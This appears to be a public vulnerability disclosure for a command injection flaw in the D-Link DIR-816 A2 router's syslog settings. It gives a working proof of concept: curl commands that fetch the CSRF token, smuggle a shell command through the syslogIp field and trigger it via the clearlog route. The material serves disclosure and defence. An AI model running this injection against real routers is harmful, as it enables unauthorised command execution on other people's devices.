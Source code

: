 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/sylogapply`, the value of parameter `syslogIp` is read and set in nvram:

![](ida1.png)

But later in the handler of route `/goform/clearlog`, nvram is read for `syslogIp` and its value is used in the construction of command `syslogd -C4 -R %s ...`:

![](ida2.png)

So it could lead to command injection with crafted request.

## POC

There's a random token required by the route, which is used as a mitigation against CSRF. So first we need to get its value:

```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```

Then we send the crafted parameter along with the token to the route `/goform/sylogapply`:

```bash
curl -i -X POST http://192.168.0.1/goform/sylogapply -d tokenid=$TOKENID -d remotesyslog=rl -d 'syslogIp=1.1.1.1;touch /tmp/test;'
```

Finally we visit `/goform/clearlog` to trigger the command execution:

```bash
curl -i -X POST http://192.168.0.1/goform/clearlog -d tokenid=$TOKENID
```

